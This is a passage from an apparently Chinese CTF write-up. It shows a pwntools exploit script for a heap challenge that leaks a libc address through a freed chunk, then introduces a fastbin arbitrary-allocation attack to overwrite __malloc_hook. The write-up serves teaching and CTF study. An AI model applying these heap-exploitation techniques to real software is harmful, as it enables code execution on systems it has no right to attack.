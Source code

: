 ```python
r = io.recv                                    #
rl = io.recvline                               #
ru = io.recvuntil                              #
it = io.interactive                            #
################################################

# misc functions
uu32    = lambda data   :u32(data.ljust(4, b'\0'))
uu64    = lambda data   :u64(data.ljust(8, b'\0'))
leak    = lambda name,addr :log.success('{} : {:#x}'.format(name, addr))

# base addr
gdb_text_base = int(os.popen("pmap {}".format(io.pid)).readlines()[1][4:16], 16)
gdb_libc_base = int(os.popen("pmap {}| grep libc".format(io.pid)).readlines()[0][4:16], 16)

# debug function
def debug(addr=0,cmd='',PIE=True):
    if PIE: addr = gdb_text_base + addr
    log.warn("breakpoint_addr --> 0x%x" % addr)
    gdb.attach(io,"b *{}\nc\n".format(hex(addr))+cmd) 

add     = lambda len,name,color :  (sla("choice : ","1"),sla("name :",str(len)),sla("flower :",name),sla("flower :",color))
show    = lambda                :  (sla("choice : ","2"))
rm      = lambda num            :  (sla("choice : ","3"),sla("garden:",str(num)))
clear   = lambda                :  (sla("choice : ","4"))

#leak libc
add(500,'1','1')
add(0x28,'2','2')
add(10,'3','3')
rm(0);rm(1)
add(500,'','4')
show()
ru("flower[3] :")
libc_addr = uu64(io.recv(6))-0x3c3b0a

leak("libc",libc_addr)
leak("gdb_libc",gdb_libc_base)
debug(0x107b,'heap chunks\nheap bins')
show()

io.interactive()
```

### 任意地址分配修改__malloc_hook

原理学习：[fastbin-arbitrary-alloc](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/fastbin_attack-zh/#arbitrary-alloc)

因为libc中常利用的函数指针为\__malloc_hook和__free_hook，并且题目中的DoubleFree还需要构造size大小合适的伪堆块，所以需要动态调试观察这两个函数指针附近是否可以满足伪堆块的利用条件：
